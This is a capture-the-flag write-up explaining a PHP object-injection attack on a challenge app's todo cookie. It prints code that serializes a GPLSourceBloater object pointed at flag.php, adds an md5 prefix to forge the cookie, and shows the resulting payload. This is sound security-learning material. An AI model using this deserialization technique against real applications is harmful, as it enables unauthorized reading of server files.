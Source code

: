 If we are able to sneak a GPLSourceBloater into the $todos array, this code will trigger the __toString() function. But just triggering this function is not enough.
If you look closely at the GPLSourceBloater source code, you will see that it will return the contents of two files: license.txt and a file defined by $this->source.
In the challenge description it was mentioned that the flag resides in flag.php - if we are able to point $this->source at flag.php and the __toString() function is
called in the todo-entries output code, we will be able to see the contents of the flag file.

Now, we have two possibilities: Read up on the serialization format and write the payload ourselves, or use the code they gave us, instantiate a class with the right variables set and serialize it straight away.
I chose to do the latter. The format of the cookie had to include the md5-sum of the serialized payload, but this can be done with php as well. I downloaded the file to my computer and added a few lines after the definition of GPLSourceBloater:

{% highlight PHP %}
$testbloater = new GPLSourceBloater();
$testbloater->source = "flag.php";
$test = serialize([$testbloater]);
$test_h = md5($test);
$test_result = $test_h . $test;
echo $test_result;
//$todos = unserialize($test);
{% endhighlight %}
I used the last line to confirm that the vulnerability is triggered. Running this with the php-cli command resulted in the following:

{% highlight html %}
760463360e4919ca238d1566fc26661fa:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}
<html>
<head>
    <style>
    ...
<ul>
    <li>PHP Warning:  highlight_file(license.txt): failed to open stream: No such file or directory in /home/user/OPs/TUCtf/test.php on line 6
PHP Warning:  highlight_file(): Failed opening 'license.txt' for highlighting in /home/user/OPs/TUCtf/test.php on line 6
PHP Warning:  highlight_file(flag.php): failed to open stream: No such file or directory in /home/user/OPs/TUCtf/test.php on line 6
PHP Warning:  highlight_file(): Failed opening 'flag.php' for highlighting in /home/user/OPs/TUCtf/test.php on line 6
</li>
{% endhighlight %}

Success! The warning shows that the code is trying to open license.txt and flag.php, which don't exist on my computer - but the code is working. The first line shows the actual payload for the cookie.
After sneaking this into the cookie using burp, the flag was displayed on the list:
hxp{Are you glad that at least Java(TM) isn't affected by serialization bugs?}

This writeup brought to you by Henning, Heiko and Ferdi (in order of challenges)
